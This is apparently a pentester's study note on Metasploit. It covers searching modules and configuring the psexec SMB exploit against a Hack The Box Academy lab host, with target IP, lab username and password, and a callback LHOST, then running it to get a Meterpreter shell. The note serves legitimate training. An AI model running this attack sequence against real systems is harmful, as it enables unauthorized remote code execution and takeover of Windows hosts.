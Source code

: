 ```yaml
---
tags:
  - Exploitation
  - Tooling
---
```

[Metasploit](https://www.metasploit.com/) is an automated attack framework developed by `Rapid7` that streamlines the process of exploiting vulnerabilities through the use of pre-built modules that contain easy-to-use options to exploit vulnerabilities and deliver payloads to gain a shell on a vulnerable system.
## Usage

```
sudo msfconsole
```

### Searching Modules 

```shell-session
search smb
```

Let's look at one module, in particular, to understand it within the context of payloads.

`56 exploit/windows/smb/psexec`

| Output     | Meaning                                                                                                                                                                       |
| ---------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `56`       | The number assigned to the module in the table within the context of the search. This number makes it easier to select. We can use the command `use 56` to select the module. |
| `exploit/` | This defines the type of module. In this case, this is an exploit module. Many exploit modules in MSF include the payload that attempts to establish a shell session.         |
| `windows/` | This defines the platform we are targeting. In this case, we know the target is Windows, so the exploit and payload will be for Windows.                                      |
| `smb/`     | This defines the service for which the payload in the module is written.                                                                                                      |
| `psexec`   | This defines the tool that will get uploaded to the target system if it is vulnerable.                                                                                        |

### Select Searched Module 

```shell-session
use 56
```

#### See Options 

```shell-session
options
```

#### Setting Options 

```shell-session
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.129.180.71
RHOSTS => 10.129.180.71
msf6 exploit(windows/smb/psexec) > set SHARE ADMIN$
SHARE => ADMIN$
msf6 exploit(windows/smb/psexec) > set SMBPass HTB_@cademy_stdnt!
SMBPass => HTB_@cademy_stdnt!
msf6 exploit(windows/smb/psexec) > set SMBUser htb-student
SMBUser => htb-student
msf6 exploit(windows/smb/psexec) > set LHOST 10.10.14.222
LHOST => 10.10.14.222
```

### Run Exploit

```
exploit
```

## Meterpreter Shell

### Interactive Shell

```shell-session
shell
```

## Specific Usages

### SQL Usage

Using [[2. Enumeration/TCP/3306. MySQL (SQL)/1. Guide|SQL]] modules

[MSSQL for Pentester: Metasploit - Hacking Articles](https://www.hackingarticles.in/mssql-for-pentester-metasploit/)